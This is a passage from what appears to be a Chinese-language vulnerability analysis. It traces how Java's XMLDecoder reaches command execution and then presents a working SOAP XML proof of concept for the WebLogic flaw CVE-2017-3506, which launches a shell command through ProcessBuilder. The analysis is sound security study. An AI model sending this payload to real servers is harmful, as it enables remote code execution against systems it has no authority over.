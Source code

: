 接下来一连串的Handler的getValueObject调用之后，到达了ObjectElementHandler的getValueObject函数，并在该函数内将我们标签内的值传给了Expression类，

[![](https://p4.ssl.qhimg.com/dm/1024_650_/t013b0ae8967efa78a6.png)](https://p4.ssl.qhimg.com/dm/1024_650_/t013b0ae8967efa78a6.png)

在调用了getValue方法后，成功将ProcessBuilder类的实例返回，

[![](https://p1.ssl.qhimg.com/dm/1024_599_/t01a6ba83d8842d74ea.png)](https://p1.ssl.qhimg.com/dm/1024_599_/t01a6ba83d8842d74ea.png)

接下来再返回给VoidElementHandler将start函数传过来，调用start函数，命令执行成功。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/dm/1024_508_/t0150c9bcc6e5bd643b.png)

最后补上一张@ fnmsd给出的XMLDecoder解析xml的流程图以加深理解。

[![](https://p5.ssl.qhimg.com/dm/1024_579_/t01ba74c95a52f443e0.png)](https://p5.ssl.qhimg.com/dm/1024_579_/t01ba74c95a52f443e0.png)



## CVE-2017-3506

上一节已经可以看到，XMLDecoder在解析xml的时候，通过构造特殊的xml文件是可以造成命令执行的，接下来我们就可以来看一下第一个weblogic由于XMLDEcoder导致的命令执行漏洞CVE-2017-3506。

先上POC，

```
&lt;soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"&gt;
    &lt;soapenv:Header&gt;
        &lt;work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/"&gt;
            &lt;java&gt;
                &lt;object class="java.lang.ProcessBuilder"&gt;
                    &lt;array class="java.lang.String" length="3"&gt;
                        &lt;void index="0"&gt;
                            &lt;string&gt;/bin/bash&lt;/string&gt;
                        &lt;/void&gt;
                        &lt;void index="1"&gt;
                            &lt;string&gt;-c&lt;/string&gt;
                        &lt;/void&gt;
                        &lt;void index="2"&gt;
                            &lt;string&gt; open /Applications/Calculator.app/&lt;/string&gt;
                        &lt;/void&gt;
                    &lt;/array&gt;
                    &lt;void method="start"/&gt;
                &lt;/object&gt;
            &lt;/java&gt;
        &lt;/work:WorkContext&gt;
    &lt;/soapenv:Header&gt;
    &lt;soapenv:Body/&gt;
&lt;/soapenv:Envelope&gt;
```
